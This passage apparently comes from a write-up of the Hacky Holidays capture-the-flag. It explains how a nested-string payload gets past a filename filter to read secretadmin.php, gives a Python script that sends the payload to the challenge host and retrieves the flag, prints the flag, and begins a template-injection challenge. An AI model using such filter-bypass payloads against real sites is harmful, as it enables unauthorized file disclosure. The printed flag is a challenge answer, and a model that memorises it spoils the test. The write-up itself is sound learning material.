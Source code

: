 //I've changed the admin file to secretadmin.php for more security!

After some trial and error I managed to find a bypass for the checks performed in the code with the following payload.

secretadmsecretadadmin.phpmin.phpin.php

- The first check is passed as the string contains only alphanumeric characters and dots
- The second check transform the string in:
	- secretadmsecretadmin.phpin.php
- The third check transform the string in:
	- secretadmin.php

{F1140353}

The content of the secretadmin.php file is read and the flag is returned inside the webpage.
Flag: flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}

The following Python script exploits the vulnerability and retrieve the flag:

```
#!/usr/bin/python3
import requests
import re

if __name__ == "__main__":
    print("[*] Challenge 6")
    url = "https://hackyholidays.h1ctf.com/my-diary/?template=index.php"
    r = requests.get(url)
    print("="*30)
    print("index.php source")
    print("="*30)
    print(r.text)
    print("="*30)
    payload = "secretadmsecretadadmin.phpmin.phpin.php"
    url = "https://hackyholidays.h1ctf.com/my-diary/? template={}".format(payload)
    r = requests.get(url)
    r1 = re.findall(r"flag\{[\w-]+\}",r.text)
    print("[*] Flag: {}".format(r1[0]))
```

#Challenge 7
The seventh challenge was accessible by browsing https://hackyholidays.h1ctf.com/hate-mail-generator. The challenge contained email campaigns and a section to create new ones.

{F1140354}

Clicking on the only available email campaigns brought me on https://hackyholidays.h1ctf.com/hate-mail-generator/91d45040151b681549d82d8065d43030

{F1140355}

This seemed like a template injection vulnerability. Also, from the existing campaign it is possible to notice that templates are imported using {{template:PAYLOAD}}. The following endpoint allowed to preview new campaigns (creation was disabled as credits were required).
https://hackyholidays.h1ctf.com/hate-mail-generator/new
